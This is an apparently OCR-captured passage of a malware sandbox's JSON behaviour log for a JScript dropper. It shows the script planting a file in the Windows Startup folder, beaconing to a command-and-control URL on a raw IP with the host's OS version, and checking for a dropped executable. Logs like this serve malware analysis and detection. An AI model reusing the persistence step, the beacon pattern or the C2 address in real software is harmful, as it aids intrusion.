 ```json
                "description": "The script read a file."
        },
        {
                "type": "FileWrite",
                "value": {
                        "file": "C:\\Users\\MyUsername\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\seter64.jse",
                        "contents": "\r\n"
                },
                "description": "The script wrote file 'C:\\Users\\MyUsername\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\seter64.jse'."
        },
        {
                "type": "NewResource",
                "value": {
                        "path": "C:\\Users\\MyUsername\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\seter64.jse",
                        "type": "ASCII text, with CRLF line terminators",
                        "latestUrl": "",
                        "md5": "81051bcc2cf1bedf378224b0a93e2877",
                        "sha1": "ba8ab5a0280b953aa97435ff8946cbcbb2755a27",
                        "sha256": "7eb70257593da06f682a3ddda54a9d260d4fc514f645237f5ca74b08f8da61a6"
                },
                "description": "The script created a resource."
        },
        {
                "type": "XMLHTTP",
                "value": {
                        "url": "https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20"
                },
                "description": "The script opened URL https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20 with XMLHTTP"
        },
        {
                "type": "UrlFetch",
                "value": {
                        "method": "POST",
                        "url": "https://185.159.82.38:45000/C/pollos.php?add=e9e45de07d328e8d46adf4357840be5e&438&uid=1526398773&out=0&ver=20",
                        "headers": {
                                "cache-control": "private"
                        },
                        "body": "Microsoft Windows 10 Enterprise10.0.17134\r\n"
                },
                "description": "The script fetched an URL."
        },
        {
                "type": "FileExists",
                "value": "C:\\Users\\SYSOP1~1\\AppData\\Local\\Temp\\414.exe",
                "description": "The script checked to see if a file exists."
        },
        {
                "type": "FileExists",
                "value": "C:\\Users\\SYSOP1~1\\AppData\\Local\\Temp\\414.exe",
                "description": "The script checked to see if a file exists."
        },
        {
                "type": "FileWrite",
                "value": {
                        "file": "example-file.exe",
                        "contents": "???"
```